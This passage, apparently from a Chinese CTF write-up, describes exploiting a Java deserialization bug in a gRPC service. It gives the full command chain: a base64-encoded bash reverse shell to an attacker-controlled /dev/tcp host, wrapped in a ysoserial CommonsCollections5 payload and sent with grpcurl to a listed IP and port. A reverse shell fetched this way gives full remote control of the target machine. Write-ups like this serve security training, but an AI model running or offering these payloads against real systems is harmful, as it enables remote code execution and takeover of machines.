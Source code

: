搜索猜测应该是 Java 的反序列化

什么信息都没有，使用 `yoserial-all.jar` 打了 CC5，发现能通

```plain
echo 'bash -i >& /dev/tcp/your_ip/your_port 0>&1' | base64

# xxx为上一条命令的输出
java -jar ysoserial-all.jar CommonsCollections5 'bash -c {echo,xxxxxx}|{base64,-d}|{bash,-i}'|base64

# xxx为上一条命令的输出（注意删除base64输出自带的\n）
docker run fullstorydev/grpcurl -plaintext -d '{"serializeData":"xxx"}' 39.106.48.123:39628 helloworld.Greeter.ProcessMsg
```

[![](assets/1705540469-4956b2f46d6955ae1a83c5e49be1b2dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240115172224-981e4e48-b387-1.png)

## Misc
